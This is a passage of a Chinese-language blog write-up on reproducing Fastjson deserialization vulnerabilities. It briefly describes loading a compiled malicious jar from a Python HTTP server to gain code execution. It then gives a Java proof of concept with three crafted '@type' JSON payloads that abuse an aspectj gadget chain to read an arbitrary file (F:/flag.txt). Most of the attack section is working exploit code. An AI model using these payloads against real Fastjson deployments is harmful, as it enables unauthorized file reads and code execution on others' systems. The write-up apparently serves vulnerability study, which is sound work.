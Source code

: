 
- 先编译上述代码中的恶意代码，打成jar包
- 利用python 启动一个简单http服务器

![image-20220903191001580](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903191001580.png)

4. 执行上述POC代码：

![image-20220903191111392](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903191111392.png)

恶意代码执行成功。

## 5. 漏洞复现之--aspectj 文件读取

1. 漏洞原理

   ![image-20220903223732097](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903223732097.png)

调用链细节

![image-20220903223841042](https://gitee.com/shine05/myblog-gallery/raw/master/img/image-20220903223841042.png)

2. 可以利用的poc

```java
public class aspectj {
    private static String poc1 = "{\n" +
            "    \"@type\":\"java.lang.Exception\",\n" +
            "    \"@type\":\"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException\"\n" +
            "}";

    private static String poc2 = "{\n" +
            "    \"@type\":\"java.lang.Class\",\n" +
            "    \"val\":{\n" +
            "        \"@type\":\"java.lang.String\"{\n" +
            "        \"@type\":\"java.util.Locale\",\n" +
            "        \"val\":{\n" +
            "            \"@type\":\"com.alibaba.fastjson.JSONObject\",{\n" +
            "                \"@type\":\"java.lang.String\"\n" +
            "                \"@type\":\"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException\",\n" +
            "                \"newAnnotationProcessorUnits\":[{}]\n" +
            "            }\n" +
            "        }\n" +
            "    }";

    private static String poc3 = "{\n" +
            "    \"x\":{\n" +
            "        \"@type\":\"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit\",\n" +
            "        \"@type\":\"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit\",\n" +
            "        \"fileName\":\"F:/flag.txt\"\n" +
            "    }\n" +
            "}";

    public static void main(String[] args) {
        JSON.parseObject(poc1);
        try {
            JSON.parseObject(poc2);
        } catch (Exception e){}
        System.out.println(JSON.parseObject(poc3));
    }

}
```